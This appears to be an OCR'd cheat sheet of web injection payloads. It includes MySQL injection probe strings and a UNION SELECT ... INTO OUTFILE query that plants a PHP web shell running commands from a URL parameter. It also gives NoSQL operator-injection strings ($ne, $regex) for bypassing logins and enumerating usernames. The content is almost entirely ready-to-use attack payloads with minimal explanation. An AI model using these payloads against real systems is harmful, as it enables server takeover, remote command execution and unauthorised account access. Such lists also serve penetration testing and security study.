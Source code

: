# inject webshell

---

```
Mysql
'*'   
'&'  
'^'  
'-'  
' or true;--   
' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'
```

# NoSql

---

## like sql

```
select * from usernames where user='$user';

$user->findone(array(
"username"=> "$user"
));
```

```
users that are not the same ''
user->findone(array(
"username"=> "{$ne:''}"
));

```

## injection php

url check if user exist

```
username[$ne]=RandomNoexiste&password[$ne]=noexiste
```

## injection with regex php

```
check for 1 char and 4 char usernames
username[$regex]=^.{1}&password=noexist
username[$regex]=^.{4}&password=noexist
```
